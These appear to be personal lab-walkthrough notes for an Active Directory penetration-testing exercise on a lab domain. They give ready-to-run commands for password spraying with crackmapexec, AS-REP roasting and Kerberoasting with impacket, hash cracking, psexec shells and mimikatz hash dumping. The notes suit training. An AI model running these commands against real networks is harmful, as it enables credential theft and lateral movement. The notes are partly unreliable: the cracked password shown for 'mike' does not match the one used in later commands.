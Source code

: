 <mark>Note</mark>: Start using `netexec` instead of  `crackmapexec`.
- Starting credential pair is `pete` with `Nexus123!`.
- `crackmapexec rdp --continue-on-success 192.168.226.0/24 -d corp.com -u pete -p Nexus123\!` will identify we have no `rdp` access to any of the domain-joined machine.![[Pasted image 20240208225229.png]]
- Since we have no direct access to domain-joined computer and hence no `PowerView` and `SharpHound`, we have to run `ldapdomaindump --no-json --no-grep ldap://192.168.226.70 -u "corp.com\pete" -p Nexus123\!` to retrieve as much as possible about the domain.
- Find `AS-REP roastable` and `Kerberoastable` accounts as well, using:
	1. `impacket-GetNPUsers -dc-ip 192.168.226.70 
	2. corp.com/pete:Nexus123\! -request -outputfile asreproast.hash`![[Pasted image 20240208231854.png]]
	3. `impacket-GetUserSPNs -dc-ip 192.168.226.70 corp.com/pete:Nexus123\! -request -outputfile kerberoast.hash`![[Pasted image 20240208231940.png]]
- Using `hashcat` with a custom rule to append either `1` or `!` will retrieve a new pair of credential as `mike` with `Nexus123\!`. Running `crackmapexec` with `rdp` to spray the new credential will yield nothing again. However, with `crackmapexec smb --continue-on-success 192.168.226.0/24 -d corp -u mike -p Darkness1099\!`, we can identify `mike` to be the **local administrator** of `Client75`.![[Pasted image 20240209002902.png]]
- Using `impacket-psexec corp/mike:Darkness1099\!@192.168.226.75 powershell.exe` to obtain a C2 session and `mimikatz` to find `NTLM hash` of the domain user `maria`.![[Pasted image 20240209023052.png]]
- Again using `psexec` to obtain a C2 session and retrieve the flag.